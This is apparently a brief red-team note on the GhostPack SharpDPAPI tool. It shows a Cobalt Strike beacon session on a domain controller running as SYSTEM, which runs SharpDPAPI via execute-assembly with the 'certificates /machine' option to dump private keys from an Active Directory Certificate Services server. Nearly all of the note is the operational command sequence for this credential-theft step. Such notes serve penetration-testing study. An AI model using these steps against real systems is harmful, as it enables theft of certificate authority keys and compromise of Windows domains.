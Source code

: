# SharpDPAPI

## [[Data Protection API (DPAPI)]]
Dump private keys but requires [[SharpDPAPI#Dump private keys]]
```beacon
beacon> run hostname
dc-1

beacon> getuid
[*] You are NT AUTHORITY\SYSTEM (admin)

beacon> execute-assembly C:\Tools\SharpDPAPI\SharpDPAPI\bin\Debug\SharpDPAPI.exe certificates /machine
```
 ![](/Images/Pasted%20image%2020220322003615.png)



```meta
requirements: 
results: 
oss: #win 
source: https://github.com/GhostPack/SharpDPAPI
description: Dump the private key from a AD CS server
```